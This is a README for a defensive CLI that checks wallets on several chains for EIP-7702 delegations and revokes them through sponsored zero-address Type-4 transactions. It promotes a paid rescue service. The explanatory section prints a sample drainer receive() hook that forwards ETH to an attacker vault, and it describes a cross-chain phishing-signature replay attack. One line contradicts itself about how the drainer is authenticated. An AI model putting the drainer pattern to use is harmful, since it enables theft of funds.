

# EIP-7702 Delegation Checker & Revoker (Multi-Chain Scanner & Sponsored Type-4 Zero-Address Revocation)

**TL;DR:** To **check and remove a malicious EIP-7702 delegation** on Ethereum, Base, Arbitrum, Optimism, Polygon, or BNB Chain, inspect the wallet's on-chain bytecode via `eth_getCode`: any Externally Owned Account (EOA) whose bytecode begins with the 3-byte magic prefix `0xef0100` followed by a 20-byte address (`48` hex characters total) has an active **EIP-7702 smart account delegation**. To **revoke an EIP-7702 delegation**, sign an EIP-7702 authorization tuple delegating your EOA back to the zero address (`0x0000000000000000000000000000000000000000`) and broadcast it inside an EIP-7702 Type-4 (`0x04`) transaction. Critically, if your wallet is infected with an **EIP-7702 sweeper** contract, **never send ETH to the infected wallet for gas**—instead, use a separate clean `sponsorWallet` to submit and pay for the Type-4 revocation transaction so the malicious `receive()` fallback hook is never triggered. This open-source TypeScript (`viem`) CLI is maintained by **[MEV DAO](https://mevdao.org)** alongside our comprehensive security guide on **[How to Check and Remove a Malicious EIP-7702 Delegation](https://mevdao.org/blog/how-to-check-and-remove-a-malicious-eip-7702-delegation)**.

[](./LICENSE)
[-purple)](https://mevdao.org/blog/how-to-check-and-remove-a-malicious-eip-7702-delegation)
[](https://mevdao.org)
[](https://www.typescriptlang.org/)

---

## Essential Security Guides & Whitehat Tools

- **Complete EIP-7702 Security Guide:** **[How to Check and Remove a Malicious EIP-7702 Delegation](https://mevdao.org/blog/how-to-check-and-remove-a-malicious-eip-7702-delegation)**
- **Approvals & Permit2 Revocation Guide:** **[How to Revoke Token Approvals and Permit2 Signatures](https://mevdao.org/blog/how-to-revoke-token-approvals-and-permit2-signatures)**
- **Compromised Wallet Flashbots Guide:** **[How to Rescue Tokens from a Compromised Wallet with a Sweeper Bot (Flashbots Guide)](https://mevdao.org/blog/how-to-rescue-tokens-from-a-compromised-wallet-with-a-sweeper-bot-flashbots-guid)**
- **Already drained, or is a sweeper bot on your wallet?** See **[MEV DAO's sweeper bot rescue service](https://mevdao.org/blog/rescue-tokens-from-a-compromised-wallet-sweeper-bot-rescue-service)** (paid, Ethereum mainnet). The free Flashbots guide above covers the do-it-yourself route.
- **Official Infrastructure Portal:** **[MEV DAO (mevdao.org)](https://mevdao.org)**

---

## What Is an EIP-7702 Delegation (And How EIP-7702 Sweeper Drainers Work)

Introduced in Ethereum's Pectra upgrade, **EIP-7702** allows any standard Externally Owned Account (EOA) to attach a **delegation designator** (`0xef0100 || implementationAddress`) to its account code slot by signing a Type-4 (`0x04`) authorization tuple:

$$\text{Authorization Tuple} = \text{RLP}(\text{chain\_id}, \text{address}, \text{nonce}, y\text{\_parity}, r, s)$$

While EIP-7702 was designed for legitimate smart-account upgrades—such as transaction batching, gas sponsorship, and MetaMask's Smart Account (`DeleGator`)—it also created two severe attack surfaces exploited in the wild in 2026:

### 1. Phishing Signatures (`chain_id = 0` Cross-Chain Replay)
If a phishing dApp tricks a user into signing a raw 32-byte digest (`keccak256(0x05 || rlp([chain_id, address, nonce]))`) or if an attacker obtains a leaked private key, the attacker attaches a malicious implementation contract (`0xef0100 || drainerContract`) to the victim's EOA. Worse, if the authorization tuple was signed with `chain_id = 0` (universal replay), the attacker can replay that exact same signature across **Ethereum Mainnet, Base, Arbitrum, Optimism, Polygon, and BNB Chain** wherever the EOA's nonce matches!

### 2. The EIP-7702 Sweeper Hook (`receive() external payable`)
Before EIP-7702, an attacker running a sweeper bot had to monitor the mempool and pay gas to broadcast a transaction after ETH arrived in a compromised wallet. With an **EIP-7702 sweeper**, the compromised EOA *itself* executes smart contract code whenever it receives ETH!
- The malicious implementation contract contains:
  ```solidity
  receive() external payable {
      (bool ok, ) = attackerVault.call{value: msg.value}("");
      require(ok);
  }
  ```
- Any ETH sent to the victim's wallet—even inside a private Flashbots bundle—triggers `receive()` and is **instantly forwarded to the attacker inside the same transaction**.
- Furthermore, the malicious implementation contract typically exposes an unauthenticated `execute(address target, bytes calldata data)` function callable only by the attacker's address, allowing the attacker to drain any ERC-20 tokens, NFTs, or staking positions held by the EOA at will.

---

## Architecture: How Sponsored Type-4 (`0x04`) Zero-Address Revocation Works

Because sending ETH to an EIP-7702-infected EOA triggers the attacker's `receive()` hook, you **must not** fund the infected wallet to revoke its delegation. Instead, EIP-7702 allows **any third-party account** (`sponsorWallet`) to submit the Type-4 (`0x04`) transaction and pay the gas, while embedding the revocation authorization signed offline by the `delegatedEOA`.



### Why the EVM Clears the Malicious Hook *Before* Calling the EOA

Per the EIP-7702 execution specification, when a node processes a Type-4 (`0x04`) transaction:
1. The sender (`sponsorWallet`) pays the transaction gas upfront.
2. **Before** the main transaction call (`to: InfectedEOA`) is executed, the EVM iterates through `authorizationList`.
3. When an authorization entry points to `address = 0x0000000000000000000000000000000000000000` (`zeroAddress`), the EVM clears the signer's account code hash back to the empty hash (`0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470`) and increments the signer's nonce by `1`.
4. By the time the transaction body executes, the malicious `0xef0100` code is already gone!

---

## Comparison: EIP-7702 Delegation vs. ERC-20 Token Approvals vs. Permit2

Users frequently confuse **EIP-7702 account delegations** with standard **ERC-20 token approvals** (`approve(spender, amount)`) or **Uniswap Permit2 signatures**. Use the table below—and our companion guide **[How to Revoke Token Approvals and Permit2 Signatures](https://mevdao.org/blog/how-to-revoke-token-approvals-and-permit2-signatures)**—to diagnose which threat affects your wallet:

| Security Dimension | Standard ERC-20 `approve()` | Uniswap `Permit2` Signature | **EIP-7702 Account Delegation (`0xef0100`)** |
| :--- | :--- | :--- | :--- |
| **Where State Lives** | Inside a single ERC-20 token contract's `allowance` mapping | Inside the canonical Permit2 contract (`0x000000000022D473030F116dDEE9F6B43aC78BA3`) | **Directly inside your EOA's own `code` slot (`eth_getCode`)** |
| **Blast Radius** | Only the specific ERC-20 token approved | Only tokens previously approved to Permit2 | **100% of native ETH, all ERC-20s, all NFTs, and all DeFi positions** |
| **How to Detect** | Etherscan Token Approval Checker / Revoke.cash | Inspect Permit2 `allowance(user, token, spender)` | **`npm run check` (`eth_getCode` starts with `0xef0100`)** |
| **How to Revoke** | `Token.approve(spender, 0)` | `Permit2.lockdown([{token, spender}])` | **Type-4 (`0x04`) tx delegating to `0x0000000000000000000000000000000000000000`** |
| **Can Attacker Steal Incoming ETH Automatically?** | No | No | **Yes! Via malicious `receive() external payable` hook** |

---

## Known Legitimate EIP-7702 Implementation Contracts vs. Malicious Drainers

Not every `0xef0100` prefix is malicious. If you intentionally enabled **MetaMask Smart Account (`DeleGator`)**, **Coinbase Smart Wallet EIP-7702**, or **Safe / Pimlico ERC-4337 v0.8**, `npm run check` will classify the implementation address accordingly:

| Implementation Contract Address | Classification | What Action to Take |
| :--- | :--- | :--- |
| `0x63c0c19a282a1b52b07dd5a65b58948a07dae32b` | **MetaMask DeleGator Smart Account** | Safe if enabled by you in MetaMask; can be reverted via MetaMask "Switch to standard account" or `npm run revoke`. |
| `0x4337084d9e255ff0702461cf8895ce9e3b5ff108` | **ERC-4337 EntryPoint v0.8 (7702)** | Standard account abstraction entrypoint; verify owning signer keys. |
| **Unverified / Unknown Contract (`0x...`)** | **HIGH RISK: Potential EIP-7702 Sweeper** | **Do NOT send ETH to this wallet!** Run `npm run revoke` using a separate `SPONSOR_PRIVATE_KEY` immediately. |

---

## Step-by-Step Usage: Check & Remove EIP-7702 Delegations

### Prerequisites
- **Node.js** `>= 20.x`

### 1. Clone & Install

```bash
git clone https://github.com/mevdao-org/eip-7702-delegation-checker-revoker.git
cd eip-7702-delegation-checker-revoker
npm install
cp .env.example .env
```

### 2. Scan Any Wallet Address Across 6 Chains (`npm run check`)

You can pass any Ethereum address directly as a CLI argument (no private key required for scanning):

```bash
npx tsx src/check.ts 0xd8dA6BF26964aF9D7eEd9e03E53415D37aA96045
```

Example terminal output:

```text
=========================================================================
  MEV DAO EIP-7702 Multi-Chain Delegation Scanner (https://mevdao.org)
=========================================================================
Inspecting Address: 0xd8dA6BF26964aF9D7eEd9e03E53415D37aA96045

┌─────────┬──────────────────────┬─────────────┬─────────────┬───────────────────────┐
│ (index) │ Chain                │ Status      │ DelegatedTo │ Classification        │
├─────────┼──────────────────────┼─────────────┼─────────────┼───────────────────────┤
│ 0       │ 'Ethereum (1)'       │ 'CLEAN_EOA' │ '-'         │ 'Standard EOA (0x)'   │
│ 1       │ 'Base (8453)'        │ 'CLEAN_EOA' │ '-'         │ 'Standard EOA (0x)'   │
│ 2       │ 'Arbitrum One (42161)'│ 'CLEAN_EOA'│ '-'         │ 'Standard EOA (0x)'   │
│ 3       │ 'OP Mainnet (10)'    │ 'CLEAN_EOA' │ '-'         │ 'Standard EOA (0x)'   │
│ 4       │ 'Polygon (137)'      │ 'CLEAN_EOA' │ '-'         │ 'Standard EOA (0x)'   │
│ 5       │ 'BNB Smart Chain (56)'│ 'CLEAN_EOA'│ '-'         │ 'Standard EOA (0x)'   │
└─────────┴──────────────────────┴─────────────┴─────────────┴───────────────────────┘

[OK] No EIP-7702 (0xef0100) delegations detected across scanned networks.
```

### 3. Revoke an EIP-7702 Delegation Back to `0x0000000000000000000000000000000000000000` (`npm run revoke`)

Configure `.env` with:
- `DELEGATED_EOA_PRIVATE_KEY`: The private key of the wallet whose EIP-7702 delegation you want to clear.
- `SPONSOR_PRIVATE_KEY`: A **separate, clean wallet** with ~$1–$3 of native gas token on the target chain. (If you are merely downgrading your own non-compromised MetaMask Smart Account, you can set `SPONSOR_PRIVATE_KEY` equal to `DELEGATED_EOA_PRIVATE_KEY`, and `src/revoke.ts` will automatically use `eoaNonce + 1` for the authorization tuple.)
- `CHAIN_ID` and `RPC_URL`: The network where the delegation was detected.

Then run:

```bash
npm run revoke
```

`src/revoke.ts` will:
1. Verify the active `0xef0100` bytecode on the target network.
2. Sign an EIP-7702 authorization tuple delegating `DELEGATED_EOA` to `0x0000000000000000000000000000000000000000`.
3. Submit the Type-4 (`0x04`) transaction funded by `SPONSOR_PRIVATE_KEY`.
4. Wait for block confirmation and verify that `eth_getCode` returns `"0x"` (Clean EOA restored).

---

## Crucial Warning: Private Key Compromise vs. Phishing Signature

Before assuming that revoking the EIP-7702 delegation makes your wallet permanently safe to keep using, determine **how** the delegation got there:

1. **Case A — You Signed a Malicious EIP-7702 Authorization (`0x05` digest), But Your Private Key Was Never Leaked:**
   - Once you revoke the delegation back to `0x0000000000000000000000000000000000000000` on every affected chain, the attacker's previously signed authorization tuple is permanently invalidated on those chains because your EOA `nonce` has incremented!
   - **However**, if the attacker tricked you into signing an authorization with `chain_id = 0` and `nonce = 0`, that signature is still valid on any *other* EVM chain where your wallet still has `nonce == 0`. Always increment your nonce or transfer assets to a fresh wallet.
2. **Case B — Your Private Key or Seed Phrase Was Leaked:**
   - If the attacker has your raw private key (`0x...`), revoking the EIP-7702 delegation is only a temporary step—the attacker's sweeper bot can immediately sign a *new* EIP-7702 delegation in the very next block!
   - When the private key itself is compromised, you must combine the Type-4 zero-address revocation and the asset transfer into a **single atomic Flashbots bundle** (or single sponsored Type-4 batch call) so the tokens leave the wallet in the exact same transaction that strips the malicious delegation. See **[How to Check and Remove a Malicious EIP-7702 Delegation](https://mevdao.org/blog/how-to-check-and-remove-a-malicious-eip-7702-delegation)** and our companion repo **[`compromised-wallet-sweeper-rescue`](https://github.com/mevdao-org/compromised-wallet-sweeper-rescue)**.

---

## Frequently Asked Questions (FAQ)

### 1. How do I check if my MetaMask wallet has an EIP-7702 delegation?
You can check in two ways: (1) Open Etherscan (or Basescan / Arbiscan) for your address—if you see an **"Account Code"** or **"Delegated To"** badge on an EOA, an EIP-7702 delegation is active; or (2) Run `npx tsx src/check.ts <YOUR_ADDRESS>` in this repository, which queries `eth_getCode` across Ethereum, Base, Arbitrum, Optimism, Polygon, and BNB Chain simultaneously and checks for the `0xef0100` prefix.

### 2. Why does `eth_getCode` return `0xef0100...` on my EOA address?
Under EIP-7702, `0xef0100` is the 3-byte delegation designator prefix mandated by the Ethereum Virtual Machine. The 20 bytes immediately following `0xef0100` represent the smart contract address whose code your EOA executes whenever it is called.

### 3. How do I remove an EIP-7702 delegation if my wallet has 0 ETH and a sweeper bot steals everything I send?
Never send ETH to the infected wallet. Use `src/revoke.ts` in this repository with two keys: `DELEGATED_EOA_PRIVATE_KEY` (which signs the offline revocation tuple pointing to `0x0000000000000000000000000000000000000000`) and `SPONSOR_PRIVATE_KEY` (a clean second wallet that broadcasts the Type-4 transaction and pays 100% of the gas). Because zero ETH ever enters the infected wallet, the sweeper hook cannot trigger.

### 4. Why did my self-funded Type-4 revocation transaction confirm on-chain without clearing the `0xef0100` code?
This is the #1 bug in DIY revocation scripts! When the transaction sender (`from`) is the **same account** as the authorization signer (`DELEGATED_EOA`), the EVM increments the sender's account `nonce` by `1` at the start of the transaction *before* validating `authorizationList`. If you signed the authorization tuple with `nonce: currentNonce` instead of `nonce: currentNonce + 1`, the EVM silently skips the authorization tuple due to a nonce mismatch while still mining the outer transaction! Our `src/revoke.ts` script automatically checks whether `sponsor == delegatedAccount` and sets `authNonce = eoaNonce + 1` when self-sponsoring.

### 5. Can Revoke.cash remove a malicious EIP-7702 delegation?
Standard token approval dashboards are built to revoke ERC-20 `approve()` allowances and Permit2 signatures, though some wallets and explorers have added EIP-7702 panels. However, browser UIs require the infected wallet itself to pay gas—which fails if an EIP-7702 sweeper hook drains incoming ETH. A sponsored Type-4 transaction (`src/revoke.ts`) bypasses that limitation completely.

### 6. After I revoke an EIP-7702 delegation, are my ERC-20 token approvals also cleared?
No! Clearing an EIP-7702 delegation (`0xef0100`) only removes the smart account code attached to your EOA. If you previously signed malicious ERC-20 `approve()` transactions or off-chain `Permit2` signatures, those allowances remain active in the respective token contracts. After revoking the EIP-7702 delegation, follow **[How to Revoke Token Approvals and Permit2 Signatures](https://mevdao.org/blog/how-to-revoke-token-approvals-and-permit2-signatures)** to audit and lockdown all token allowances.

### 7. What if I have high-value staked tokens or unclaimed airdrops stuck in an EIP-7702-infected wallet?
If the attacker also possesses your private key, simply broadcasting a public revocation will alert their bot to re-delegate your wallet in the next block. You must execute an atomic **Flashbots bundle** that combines the Type-4 revocation, the claim/unstake call, and the token transfer in a single block. If you'd rather not build that bundle yourself, see how an **[EIP-7702 sweeper rescue](https://mevdao.org/blog/rescue-tokens-from-a-compromised-wallet-sweeper-bot-rescue-service)** works with MEV DAO's paid Token Rescue Bot (Ethereum mainnet).

---

## Further Reading & Security Resources

- **[MEV DAO Official Portal (mevdao.org)](https://mevdao.org)**
- **[How to Check and Remove a Malicious EIP-7702 Delegation](https://mevdao.org/blog/how-to-check-and-remove-a-malicious-eip-7702-delegation)**
- **[How to Revoke Token Approvals and Permit2 Signatures](https://mevdao.org/blog/how-to-revoke-token-approvals-and-permit2-signatures)**
- **[How to Rescue Tokens from a Compromised Wallet with a Sweeper Bot (Flashbots Guide)](https://mevdao.org/blog/how-to-rescue-tokens-from-a-compromised-wallet-with-a-sweeper-bot-flashbots-guid)**
- **[Rescue Tokens from a Compromised Wallet: MEV DAO Sweeper Bot Rescue Service](https://mevdao.org/blog/rescue-tokens-from-a-compromised-wallet-sweeper-bot-rescue-service)**
- **[EIP-7702 Rescue vs Flashbots Bundles: Which Saves Your Tokens](https://mevdao.org/blog/eip-7702-rescue-vs-flashbots-bundles-saving-tokens)**
- **[Wallet Drainer Approvals: Permit, setApprovalForAll and 7702](https://mevdao.org/blog/wallet-drainer-approvals-permit-setapprovalforall-7702)**
- **[Field notes: check an address for an EIP-7702 delegation](https://mevdao-org.github.io/eip-7702-delegation-check.html)**

## License

Released under the [MIT License](./LICENSE) by **MEV DAO** (`research@mevdao.org`).
